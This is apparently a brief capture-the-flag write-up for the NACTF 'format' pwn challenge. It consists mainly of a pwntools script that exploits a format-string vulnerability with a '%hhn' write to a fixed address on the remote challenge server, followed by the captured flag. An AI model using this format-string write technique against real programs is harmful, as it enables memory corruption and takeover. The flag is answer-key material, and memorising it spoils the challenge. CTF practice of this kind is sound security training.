 ## NACTF: format [pwn]
> description to be added later

#### Format string vulnerability, detailed writeup later after I'm done with lunch.

```python
from pwn import *

#:
#p = process('./format')
p = remote('challenges.ctfd.io', 30266)
#gdb.attach(p.pid, 'break *check_num + 32')
print(p.recvuntil('.\n'))

#: 12 space padding
p.sendline("%60x      %8$hhn{}".format(p64(0x404080)))
print(p.recvuntil('}'))

#: nactf{d0nt_pr1ntf_u54r_1nput_HoUaRUxuGq2lVSHM}
```